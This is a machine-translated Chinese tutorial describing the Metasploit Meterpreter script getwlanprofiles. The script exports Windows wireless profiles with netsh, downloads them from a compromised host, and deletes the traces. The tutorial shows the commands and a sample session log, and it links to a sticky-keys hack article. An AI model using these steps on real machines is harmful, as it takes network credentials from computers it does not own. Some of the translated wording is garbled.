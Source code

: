 # metasploit getwlanprofiles–从 Windows 客户端下载无线配置文件的简单脚本

> 原文：<https://kalilinuxtutorials.com/metasploit-getwlanprofiles-simple-script/>

Metasploit getwlanprofiles 是一个 Meterpreter 脚本，当它在 Windows 7 或 Vista 系统上运行时，将提取并下载所有由 Windows 客户设置的无线配置文件，即不是由外部客户应用程序设置的。

它通过使用以下命令将所有配置文件转储到当前的%TEMP%目录来实现这一点

```
`netsh wlan export profile folder=%TEMP%`
```

此时，对于输出的每一行，找到配置文件的文件名并下载它。然后从索引中删除该记录。

#### **也读作[win pirate——自动化粘滞键 Hack](http://kalilinuxtutorials.com/winpirate-automated-sticky-keys-hack/)**

这些配置文件存储在**. ms F3/logs/scripts/WLAN _ profiles/**目录中。

要重用这些配置文件，可以使用以下命令将它们导入到另一个 Windows 框中

```
`netsh wlan add profile filename="the_filename.xml"`
```

测试时发现的一个问题是，你是否有一个外部的 wifi 卡，并在那时设置配置文件驱逐卡。netsh 脚本将无法再访问这些配置文件。当卡重新插入时，配置文件返回。在任何情况下，都有一种方法可以访问它们，但是 Metasploit getwlanprofiles 不能做到这一点。

## **Metasploit getwlanprofiles 用法**

只需解压缩脚本并将其移动到 meterpreter/scripts 目录。同时最好删除文件名中的版本号。

运行 Metasploit 时，getwlanprofiles 应如下所示:

```
**meterpreter > run getwlanprofiles 
[*] Running Windows Wlan Profile Downloader Meterpreter Script
[*] New session on 192.168.0.80:53831...
[*] Running export command - netsh wlan export profile folder=C:\Users\robin\AppData\Local\Temp
[*] Downloading profile wpa_profile to /home/robin/.msf3/logs/scripts/wlan_profiles/VISTA-DOMAIN_20110110.5030/wpa_profile.xml
[*]     Deleting file C:\Users\robin\AppData\Local\Temp\Wireless Network Connection 2-wpa.xml
[*] Downloading profile thisiswep to /home/robin/.msf3/logs/scripts/wlan_profiles/VISTA-DOMAIN_20110110.5030/thisiswep.xml
[*]     Deleting file C:\Users\robin\AppData\Local\Temp\Wireless Network Connection 2-thisiswep.xml
[*] Downloading profile eap to /home/robin/.msf3/logs/scripts/wlan_profiles/VISTA-DOMAIN_20110110.5030/eap.xml
[*]     Deleting file C:\Users\robin\AppData\Local\Temp\Wireless Network Connection 2-this is it.xml
[*] Found and extracted 3 profiles
[*] Done!**
```

[![](img//a51de913dc60eee505c4a68651ee8e4d.png)](https://digi.ninja/metasploit/getwlanprofiles.php)